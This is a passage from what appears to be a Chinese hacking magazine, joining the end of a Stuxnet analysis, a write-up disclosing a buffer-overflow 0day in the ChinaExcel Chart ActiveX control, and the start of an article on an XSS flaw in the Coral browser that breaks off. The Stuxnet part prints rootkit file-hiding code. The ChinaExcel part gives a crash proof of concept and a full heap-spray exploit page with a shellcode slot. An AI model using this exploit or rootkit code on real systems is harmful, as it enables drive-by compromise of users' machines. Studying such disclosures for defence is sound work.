从上面的程序可知，Rootkit 创建了一个自己的驱动，然后将其加入到以下驱动链中：`\\FileSystem\\ntfs`、`\\FileSystem\\fastfat`、`\\FileSystem\\cdfs`。这些驱动是处理文件及文件夹的主要驱动。MRxNet 成功加入到驱动链之后，当上层应用程序发送 I/O 请求包给上述文件驱动时，MRxNet 会先于它们获得；在接收到请求后，它会修改请求内容，然后再次向下发送给文件驱动。请求的内容中删除命名为“{58763ECF-8AC3-4A35-9430-1A310CE4BE0A}”的目录，实现文件隐藏。当然，MRxNet 驱动的作用远不止这点，其主要目的是修改文件驱动的输出内容，故 MRxNet.sys 需要添加一个 I/O 完成例程 IOCompleteRoutine。此方法类似于 C++ 中的回调函数，当文件驱动将输入结果向上返回到 MRxNet.sys 层时，会触发 I/O 例程 IOCompleteRoutine 方法：

```c
PrevIrpStack =
((ULONG)Irp->Tail.Overlay.CurrentStackLocation -
    (ULONG)sizeof(IO_STACK_LOCATION));
PrevIrpStack->Control = 0;
PrevIrpStack->Context = 0;
PrevIrpStack->CompletionRoutine =
DirectoryCompletionRoutine;
PrevIrpStack->Control = 0xE0;

// MRxNet 驱动会在 DirectoryCompletionRoutine 函数中删除 stuxnet 文件：
if (!(LowPart == -1 && HighPart == -1) && (HighPart == 0 || LowPart < 4096 || LowPart > 8388608)) return 0;
if (Length != 12) return 0;
if (StrCheck(L".TMP", &Filename[Length-4], 4) == 0) return 0;
if (StrCheck(L"~WTR", Filename, 4) == 0) return 0;
for (i = 4; i < 8; i++) {
  chr = Filename[i];
  if (chr < '0' || chr > '9') return 0;
  Mod = (chr - 0x30 + Mod) % 10;
}
if (Mod == 0) return 1; else return 0;
```

### 6. 加载机制

驱动文件 mrxcls.sys 主要用来向用户空间注入代码，它是一项极为复杂的工程，包含各种有效特性，能完全绕过各种反病毒软件，尤其是基于行为分析的反病毒软件。它从注册表键值 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\MRxCls` 获取需要的输入参数，解密此键值数据后，得到如图 4 所示内容。



由图 4 可知，此数据包含一些系统进程及系统文件名，可通知 mrxcls.sys 驱动；Stuxnet 包含在这些系统文件中，并会选择这些进程作为寄宿对象。下面具体分析此数据的结构组织：文件头。

| Header | 说明 |
|---|---|
| Signature = 0 (4 bytes) | 签名 |
| Pointer to The body (the end of Header) (4 bytes) | 指向数据体（Header 末尾）的指针 |
| Reserved (4 bytes) | 保留字段 |
| Number of Injections (4 bytes) | 注入项数量 |

由于文件头部第 4 项即感染注入进程数是动态变化的，故文件头大小也是不定值。在头部之后紧跟一个数组变量，数组元素即感染注入进程数。每个数组子项都包含了一个寄宿进程名、被注入的 DLL 文件、标志以及解密此病毒的密钥。其中，标志位字段占 2 bits，第一位用来描述文件是否加密，第二位定义寄宿进程是否包含一个即将被加载的已解密 Stuxnet 文件。故 Stuxnet 蠕虫会向驱动写入一个包含以下信息的数据结构：

- services.exe: `\SystemRoot\inf\oem7A.PNF`（stuxnet main dll）and call to Export 1
- S7tgjopx.exe: `\SystemRoot\inf\oem7A.PNF` and call to Export 2（SCADA infection）
- CCProjectMgr.exe: `\SystemRoot\inf\oem7A.PNF` and call to Export 2
- explorer.exe: `\SystemRoot\inf\oem7m.PNF` and call to Export 2

### 7. 结论

Stuxnet 蠕虫因其极大的复杂性引起了各大媒体的关注，在其背后隐藏着各种政治目的。它是迄今为止公开过的最为复杂的病毒，包含了 4 个零日漏洞以及 3 个 rootkits。更为可怕的是它的攻击目标直指西门子公司的 SIMATIC WinCC 系统。相信 Stuxnet 的出现已经改变了人们对恶意病毒的定义，也必将开辟出一个新的安全领域。

前置知识：汇编

关键词：ChinaExcel，远程溢出，0day

## 揭秘 ChinaExcel Chart 图表控件远程溢出 0day

图/文 爱无言

ChinaExcel Chart 图表控件是由杭州通用软件有限公司自主开发的一款类 Excel 图表控件产品，可以在 C/S 和 Web 等各种环境下应用。简单地讲，利用这个控件，我们可以实现类似微软 Excel 的功能，将数据用表格的形式或者图形的形式来展现。我们知道，控件的好处在于可以作为一个单独的程序使用在不同的环境当中，尤其是网页当中。关于这方面的内容，我们不在这里讨论，我们需要关注的是这些能够使用在网页当中的控件，在安全方面往往会出现严重的问题。这里，我们就针对 ChinaExcel Chart 图表控件做一个安全测试。

我们本次的测试环境为 Windows XP SP3 系统，使用的浏览器为 IE6。当我们在系统中安装了 ChinaExcel Chart 图表控件后，它会向当前系统中注册一个 ActiveX 控件，如图 1 所示。



图 1

图 1 这张图是我们利用 ComRaider 程序查看当前系统中所有注册的 ActiveX 控件时，找到的 ChinaExcel Chart 图表控件注册的 ActiveX 控件信息。

从图 1 中我们看出，ChinaExcel Chart 图表控件注册的 ActiveX 控件文件名为“CHINAE~1.OCX”，它是一个可以被浏览器自动加载的 ActiveX 控件，因为图 1 中显示该控件的“RegKey Safe for Script: True、RegKey Safe for Init: True”，即注册表中负责控件安全标识的键值都为真。

现在，我们需要查看一下 ChinaExcel Chart 图表控件提供了哪些可以被我们调用的外部接口，如图 2 所示。



图 2

从图 2 中我们看到，ChinaExcel Chart 图表控件提供了丰富的外部接口，这些接口都是用来生成类似微软 Excel 图表数据用的。其中，我们比较关注一个名为“ReadDataFile”的外部接口，其函数原型为：

```vb
Function ReadDataFile (
    ByVal szFilePath As String,
    ByVal bReadFromFile As Boolean
) As Boolean
```

大家一定比较疑惑，为什么我们恰恰对这个外部接口感兴趣。“ReadDataFile”这个外部接口从名字上来看，是一个用来读取数据文件的。按照 ChinaExcel Chart 图表控件的帮助文档解释，“ReadDataFile”读取的数据文件有着特殊的格式要求，必须将数据按照一行一个数据的方式来书写，因为这样才能使得 ChinaExcel Chart 图表控件明确自己最后要生成的图表是什么样式。既然“ReadDataFile”是要读取数据文件的，数据文件的完整路径名称就是一个非常关键的地方。众所周知，Windows 系统下的文件完整路径名称长度不超过 260 个字节，很多编程人员在这个细节上往往没有考虑详尽，最终将会造成严重的安全隐患。为此，我们抱着试一试的态度，准备对 ChinaExcel Chart 图表控件的“ReadDataFile”外部接口做一个安全测试。

首先，我们需要写一段用来测试网页代码，其内容如下：

```html
<object classid="clsid:5DFF65DA-6BBB-43D4-A6A6-1063D98DBB5E" name="evil"></object>
<script>
var a = Array(1000);
evil.ReadDataFile(a,1);
</script>
```

代码很简单，主要就是利用 JavaScript 语言调用了 ChinaExcel Chart 图表控件的“ReadDataFile”外部接口，并且制造了一个长度为 1000 个字节的变量 a，将其作为测试变量传递给“ReadDataFile”外部接口，目的就是看一看“ReadDataFile”外部接口在处理如此过长的文件路径名时会不会发生意想不到的错误。

保存上述网页代码为 test.htm 文件，将其上传到 Web 服务目录下。然后，打开浏览器（这里是 IE6），并且启动 OllyDbg 程序附加到 IE 的进程上。此刻，在 IE 浏览器中输入 test.htm 文件所在的网址，回车访问后，我们发现 OllyDbg 程序监视到了一个严重的程序错误，如图 3 所示。



图 3

图 3 中那个“2C2C2C2C 不可读”的错误，我相信所有的读者都能明白是什么意思。毫无疑问，此刻“ReadDataFile”外部接口发生了严重的溢出漏洞，一个 0day 被我们发现了！

漏洞是发现了，但是我们更需要知道漏洞发生的原因。重新启动 OllyDbg 程序，运行 IE 浏览器。当我们在浏览器中第一次打开 test.htm 时，浏览器会弹出一个对话框，显示“打开数据文件出错”。这个时候，我们可以利用对该对话框的监视来找到“ReadDataFile”外部接口发生错误的函数，这个操作步骤很简单。

首先，在 OllyDbg 程序中按下 Ctrl+G 组合键，输入我们要监视的函数“MessageBoxA”，该函数负责弹出对话框。单击“确定”按钮以后，OllyDbg 程序将会跳转到“MessageBoxA”函数所在的位置，在该处按 F2 键下一个断点。接着，在浏览器中再次访问 test.htm 文件所在网址，此刻，OllyDbg 程序将会立即停止在“MessageBoxA”函数所在的位置，如图 4 所示。



此刻，我们注意到图 4 右下侧的堆栈区域显示“返回到 CHINAE~1.030D1AEC 来自 CHINAE~1.030EC120”，这意味着 CHINAE~1.030D1AEC 这个地方是调用 MessageBoxA 函数的关键地区，我们在 OllyDbg 程序中跳转到该地址。显然，CHINAE~1.030D1AEC 这个地方调用了对话框函数，但是，这里已经发生了溢出，因为图 4 的堆栈区下方已经被大量的“2C”所填充，如图 5 所示。



为此，我们还需要回溯找到那个关键的函数。现在，在 OllyDbg 中单步执行，直到我们来到了 `030D58B7` 这个内存地址，如图 6 所示。看来漏洞由此发生了。至此，漏洞发生的原因我们明白了，剩下的就是研究漏洞的利用方法了。其实漏洞的利用方法完全可以借助于 heapspray 技术来实现，代码的基本结构如下。



图 6

```html
<object classid="clsid:5DFF65DA-6BBB-43D4-A6A6-1063D98DBB5E" name="evil"></object>
<script>
var heapSprayToAddress = 0x20202020;
var shellcode = unescape("这里放入shellcode");
var heapBlockSize = 0x400000;
var payLoadSize = shellcode.length * 2;
var spraySlideSize = heapBlockSize - (payLoadSize + 0x38);
var spraySlide = unescape("%u0505%uebd1%uebdf");
spraySlide = getSpraySlide(spraySlide, spraySlideSize);
heapBlocks = (heapSprayToAddress - 0x400000) / heapBlockSize;
memory = new Array();
for (i = 0; i < heapBlocks; i++) {
  memory[i] = spraySlide + shellcode;
}
var a = Array(5000);
evil.ReadDataFile(a,1);

function getSpraySlide(spraySlide, spraySlideSize) {
  while (spraySlide.length * 2 < spraySlideSize) {
    spraySlide += spraySlide;
  }
  spraySlide = spraySlide.substring(0, spraySlideSize / 2);
  return spraySlide;
}
</script>
```



图 7

上面这段代码中我们首先看到，函数利用指令“`sub esp, 10C`”开辟了一段栈空间，这个空间的大小只有 268 个字节。可是在随后的代码中，我们没有看到任何长度判断限制指令，而是看到了类似“`rep movs dword ptr es:[edi], dword ptr [esi]`”这样的内存拷贝指令。于是，栈空间中保存的函数返回地址被过长的数据覆盖了，漏洞由此发生了。

最后，该漏洞属于非常典型的缓冲区溢出漏洞，可以作为一个学习 ActiveX 控件漏洞挖掘分析的案例。由于漏洞属于首次公布，所以大家不要用本文的技术来做任何违法行为，作者与杂志概不负责。

前置知识：无

关键词：XSS、0day、珊瑚浏览器

## 另类的珊瑚浏览器 XSS 0day 漏洞

图/文 爱无言

“珊瑚浏览器”是由珊瑚浏览器工作室开发的一款免费网络浏览器软件，这款浏览器在界面上类似搜狗浏览器，显得十分清爽，如图 1 所示。



图 1

众所周知，浏览器软件的安全一向是软件安全中最引人注意的一块，因为浏览器的使用率是最高的。

眼前的这款“珊瑚浏览器”从初步观察来看，在样式和使用体验上也是非常适合用户需求的。但是，在安全方面是不是也如此让人称心如意呢？这里，我们就对“珊瑚浏览器”做一个初步的安全测试，看一看能否发现一些意想不到的结果。

我们此次测试的“珊瑚浏览器”版本，如图 2 所示。



图 2

从图 1 来看，这种将常用网站显示在浏览器打开首页的模式是当前比较流行的。当我们将鼠标光标滑动到某一个常用网站图标的上方时，浏览器给出了可以“自定义”该图标内容的选项，如图 3 所示。



图 3

点击“自定义”后会出现一个新的窗口，如图 4 所示。

